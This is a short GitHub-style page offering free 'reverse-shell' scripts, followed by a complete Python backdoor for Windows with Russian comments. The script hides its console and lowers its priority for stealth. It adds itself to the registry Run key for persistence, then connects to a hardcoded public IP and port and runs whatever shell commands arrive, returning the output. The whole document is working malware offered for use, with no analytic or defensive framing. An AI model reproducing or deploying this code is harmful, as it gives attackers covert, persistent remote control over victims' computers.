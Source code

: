 different scripts like reverse-shell 

beaverV000 team bruh gyat

free 


script: 


import socket
import subprocess
import os
import sys
import time
import winreg
import ctypes
import select

def set_low_priority():
    """Снижает приоритет процесса до уровня IDLE (Windows)."""
    try:
        if os.name == 'nt':
            # Константа для низкого приоритета
            IDLE_PRIORITY_CLASS = 0x00000040
            handle = ctypes.windll.kernel32.GetCurrentProcess()
            ctypes.windll.kernel32.SetPriorityClass(handle, IDLE_PRIORITY_CLASS)
    except Exception:
        pass  # Подавляем ошибку для скрытности

def hide_console():
    """Скрывает окно консоли Windows."""
    try:
        if os.name == 'nt':
            hwnd = ctypes.windll.kernel32.GetConsoleWindow()
            if hwnd:
                SW_HIDE = 0
                ctypes.windll.user32.ShowWindow(hwnd, SW_HIDE)
    except Exception:
        pass

def add_to_registry():
    """Добавляет скрипт в автозагрузку через реестр Windows (HKCU)."""
    try:
        file_path = os.path.abspath(sys.argv[0])
        reg_key = winreg.OpenKey(
            winreg.HKEY_CURRENT_USER,
            r"Software\Microsoft\Windows\CurrentVersion\Run",
            0,
            winreg.KEY_ALL_ACCESS
        )
        app_name = "AdvancedShell"
        winreg.SetValueEx(reg_key, app_name, 0, winreg.REG_SZ, file_path)
        winreg.CloseKey(reg_key)
    except Exception:
        pass

def execute_command(command):
    """Выполняет команду в системе и возвращает её вывод."""
    try:
        output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
    except subprocess.CalledProcessError as e:
        output = e.output
    except Exception:
        output = b"Execution error."
    return output.decode('utf-8', errors='replace')

def create_socket(server_ip, server_port):
    """Создаёт TCP-соединение с заданным сервером."""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(10)  # Таймаут на установку соединения
    s.connect((server_ip, server_port))
    s.settimeout(None)  # Убираем таймаут после подключения
    return s

def reverse_shell(server_ip, server_port):
    """
    Основной цикл обратного шелла с использованием select для минимальной нагрузки.
    При отсутствии входящих данных цикл делает небольшую задержку.
    """
    while True:
        sock = None
        try:
            sock = create_socket(server_ip, server_port)
            sock.sendall(b"[+] Connection established.\n")
            while True:
                # Использование select для ожидания активности на сокете (таймаут 1 секунда)
                ready, _, _ = select.select([sock], [], [], 1)
                if ready:
                    data = sock.recv(1024)
                    if not data:
                        break  # Соединение закрыто
                    command = data.decode('utf-8', errors='replace').strip()
                    if command.lower() == "exit":
                        sock.sendall(b"[+] Disconnecting.\n")
                        sock.close()
                        sys.exit(0)
                    elif command:
                        result = execute_command(command)
                        if not result:
                            result = "[+] Command executed with no output.\n"
                        sock.sendall(result.encode('utf-8'))
                # Небольшая задержка для уменьшения ЦПУ-алгоритмов
                time.sleep(0.1)
        except Exception:
            # Если соединение не установлено – делаем паузу, чтобы не нагружать систему
            time.sleep(5)
        finally:
            if sock:
                try:
                    sock.close()
                except Exception:
                    pass

if __name__ == "__main__":
    # Применяем меры для повышения скрытности и снижения нагрузки
    hide_console()       # Скрываем окно консоли
    set_low_priority()   # Снижаем приоритет процесса
    add_to_registry()    # Добавляем скрипт в автозагрузку

    # Замените на IP и порт управляющего ПК.
    SERVER_IP = "5.199.233.23"  # Публичный или локальный IP, в зависимости от настроек сети
    SERVER_PORT = 1488          # Порт, который слушает управляющий (например, ncat)

    reverse_shell(SERVER_IP, SERVER_PORT)
